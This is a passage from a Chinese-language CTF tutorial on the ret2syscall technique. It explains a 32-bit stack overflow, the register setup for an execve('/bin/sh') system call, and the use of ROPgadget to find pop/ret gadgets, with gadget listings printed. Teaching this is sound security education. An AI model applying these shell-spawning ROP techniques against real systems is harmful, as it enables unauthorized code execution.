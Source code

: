 可以看出此次仍然是一个栈溢出。类似于之前的做法，我们可以获得 v4 相对于 ebp 的偏移为 108。所以我们需要覆盖的返回地址相对于 v4 的偏移为 112。此次，由于我们不能直接利用程序中的某一段代码或者自己填写代码来获得 shell，所以我们利用程序中的 gadgets 来获得 shell，而对应的 shell 获取则是利用系统调用。关于系统调用的知识，请参考：

- https://zh.wikipedia.org/wiki/%E7%B3%BB%E7%BB%9F%E8%B0%83%E7%94%A8

简单地说，只要我们把对应获取 shell 的系统调用的参数放到对应的寄存器中，那么我们在执行 int 0x80 就可执行对应的系统调用。比如说这里我们利用如下系统调用来获取 shell：

```C
execve("/bin/sh",NULL,NULL)
```

其中，该程序是 32 位，所以我们需要使得

- 系统调用号，即 eax 应该为 0xb
- 第一个参数，即 ebx 应该指向 /bin/sh 的地址，其实执行 sh 的地址也可以。
- 第二个参数，即 ecx 应该为 0
- 第三个参数，即 edx 应该为 0

而我们如何控制这些寄存器的值 呢？这里就需要使用 gadgets。比如说，现在栈顶是 10，那么如果此时执行了pop eax，那么现在 eax 的值就为 10。但是我们并不能期待有一段连续的代码可以同时控制对应的寄存器，所以我们需要一段一段控制，这也是我们在 gadgets 最后使用 ret 来再次控制程序执行流程的原因。具体寻找 gadgets的方法，我们可以使用 ropgadgets 这个工具。

首先，我们来寻找控制 eax 的gadgets

```shell
➜  ret2syscall ROPgadget --binary rop  --only 'pop|ret' | grep 'eax'
0x0809ddda : pop eax ; pop ebx ; pop esi ; pop edi ; ret
0x080bb196 : pop eax ; ret
0x0807217a : pop eax ; ret 0x80e
0x0804f704 : pop eax ; ret 3
0x0809ddd9 : pop es ; pop eax ; pop ebx ; pop esi ; pop edi ; ret
```

可以看到有上述几个都可以控制 eax，我选取第二个来作为 gadgets。

类似的，我们可以得到控制其它寄存器的 gadgets

```shell
➜  ret2syscall ROPgadget --binary rop  --only 'pop|ret' | grep 'ebx'
0x0809dde2 : pop ds ; pop ebx ; pop esi ; pop edi ; ret
0x0809ddda : pop eax ; pop ebx ; pop esi ; pop edi ; ret
0x0805b6ed : pop ebp ; pop ebx ; pop esi ; pop edi ; ret
0x0809e1d4 : pop ebx ; pop ebp ; pop esi ; pop edi ; ret
0x080be23f : pop ebx ; pop edi ; ret
0x0806eb69 : pop ebx ; pop edx ; ret
0x08092258 : pop ebx ; pop esi ; pop ebp ; ret
0x0804838b : pop ebx ; pop esi ; pop edi ; pop ebp ; ret
0x080a9a42 : pop ebx ; pop esi ; pop edi ; pop ebp ; ret 0x10
0x08096a26 : pop ebx ; pop esi ; pop edi ; pop ebp ; ret 0x14
0x08070d73 : pop ebx ; pop esi ; pop edi ; pop ebp ; ret 0xc
0x0805ae81 : pop ebx ; pop esi ; pop edi ; pop ebp ; ret 4
0x08049bfd : pop ebx ; pop esi ; pop edi ; pop ebp ; ret 8
0x08048913 : pop ebx ; pop esi ; pop edi ; ret
0x08049a19 : pop ebx ; pop esi ; pop edi ; ret 4
0x08049a94 : pop ebx ; pop esi ; ret
0x080481c9 : pop ebx ; ret
0x080d7d3c : pop ebx ; ret 0x6f9
0x08099c87 : pop ebx ; ret 8
0x0806eb91 : pop ecx ; pop ebx ; ret
0x0806336b : pop edi ; pop esi ; pop ebx ; ret
0x0806eb90 : pop edx ; pop ecx ; pop ebx ; ret
0x0809ddd9 : pop es ; pop eax ; pop ebx ; pop esi ; pop edi ; ret
0x0806eb68 : pop esi ; pop ebx ; pop edx ; ret
0x0805c820 : pop esi ; pop ebx ; ret
0x08050256 : pop esp ; pop ebx ; pop esi ; pop edi ; pop ebp ; ret
0x0807b6ed : pop ss ; pop ebx ; ret
```

